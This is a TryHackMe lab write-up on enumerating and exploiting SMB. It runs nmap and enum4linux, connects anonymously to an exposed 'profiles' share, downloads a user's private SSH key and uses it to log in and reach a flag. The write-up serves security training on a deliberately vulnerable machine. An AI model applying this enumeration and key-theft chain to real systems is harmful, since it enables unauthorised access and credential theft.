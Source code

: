 # Network Services SMB

---
Date: 2021-12-17  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/networkservices)
---

## Task 3 | Enumerating SMB

First scan service with nmap:

````
nmap -sV 10.10.176.114
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 20:13 CET
Nmap scan report for 10.10.176.114
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: POLOSMB; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.37 seconds
````

There you can find that **3 Ports** are open and SMB is running on **Port 139 and 445**.

You also can find the Workgroup **WORKGROUP** and the **Hostname POLOSMB**.

Then we start a Scan with Enum4Linux (Shorted Text):

````
enum4linux -a 10.10.176.114
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Dec 18 20:15:39 2021

==========================
|    Target Information    |
==========================
Target ........... 10.10.176.114
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


=====================================================
|    Enumerating Workgroup/Domain on 10.10.176.114    |
=====================================================
[+] Got domain/workgroup name: WORKGROUP

=============================================
|    Nbtstat Information for 10.10.176.114    |
=============================================
Looking up status of 10.10.176.114
POLOSMB         <00> -         B <ACTIVE>  Workstation Service
POLOSMB         <03> -         B <ACTIVE>  Messenger Service
POLOSMB         <20> -         B <ACTIVE>  File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

======================================
|    Session Check on 10.10.176.114    |
======================================
[+] Server 10.10.176.114 allows sessions using username '', password ''

============================================
|    Getting domain SID for 10.10.176.114    |
============================================
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

=======================================
|    OS information on 10.10.176.114    |
=======================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 10.10.176.114 from smbclient:
[+] Got OS info for 10.10.176.114 from srvinfo:
POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
platform_id     :       500
os version      :       6.1
server type     :       0x809a03

==============================
|    Users on 10.10.176.114    |
==============================
Use of uninitialized value $users in print at ./enum4linux.pl line 874.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 877.

Use of uninitialized value $users in print at ./enum4linux.pl line 888.
Use of uninitialized value $users in pattern match (m//) at ./enum4linux.pl line 890.

==========================================
|    Share Enumeration on 10.10.176.114    |
==========================================

        Sharename       Type      Comment
        ---------       ----      -------
        netlogon        Disk      Network Logon Service
        profiles        Disk      Users profiles
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.176.114
//10.10.176.114/netlogon        [E] Can't understand response:
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
//10.10.176.114/profiles        Mapping: OK, Listing: OK
//10.10.176.114/print$  Mapping: DENIED, Listing: N/A
//10.10.176.114/IPC$    [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

=====================================================
|    Password Policy Information for 10.10.176.114    |
=====================================================


[+] Attaching to 10.10.176.114 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] POLOSMB
        [+] Builtin

[+] Password Info for Domain: POLOSMB

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes
        [+] Locked Account Duration: 30 minutes
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5
````

There you can find the **operating system version 6.1**.

Another question is witch share sticks out and thats the **share profiles**.

## Task 4 | Exploiting SMB

We now can anonymously connect to the smb share **/profiles**:

````
smbclient //10.10.176.114/profiles -U Anonymous
Enter WORKGROUP\Anonymous's password:
Try "help" to get a list of possible commands.
smb: \> ls
.                                   D        0  Tue Apr 21 13:08:23 2020
..                                  D        0  Tue Apr 21 12:49:56 2020
.cache                             DH        0  Tue Apr 21 13:08:23 2020
.profile                            H      807  Tue Apr 21 13:08:23 2020
.sudo_as_admin_successful           H        0  Tue Apr 21 13:08:23 2020
.bash_logout                        H      220  Tue Apr 21 13:08:23 2020
.viminfo                            H      947  Tue Apr 21 13:08:23 2020
Working From Home Information.txt      N      358  Tue Apr 21 13:08:23 2020
.ssh                               DH        0  Tue Apr 21 13:08:23 2020
.bashrc                             H     3771  Tue Apr 21 13:08:23 2020
.gnupg                             DH        0  Tue Apr 21 13:08:23 2020

12316808 blocks of size 1024. 7584024 blocks available
````

There we can get the file "Working From Home Information.txt" in witch we can see that **John Cactus** wrote it:

````
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager
````

Then we can look into the interesting folder **.ssh** where we can see those files:

````
smb: \> cd .ssh\
smb: \.ssh\> ls
.                                   D        0  Tue Apr 21 13:08:23 2020
..                                  D        0  Tue Apr 21 13:08:23 2020
id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
authorized_keys                     N        0  Tue Apr 21 13:08:23 2020

12316808 blocks of size 1024. 7584024 blocks available
````

We are interested in the file **id_rsa** and **id_rsa.pub**.

Download it to our client with the command *get id_rsa* and *get id_rsa.pub*.

In the file *get id_rsa.pub* you can see the *ssh username cactus*.

We now can set the permissions for the rsa key with *chmod 600 id_rsa* and connect with ssh with *ssh cactus@10.10.176.114*.

In the home directory of cactus w can find the file smb.txt with the flag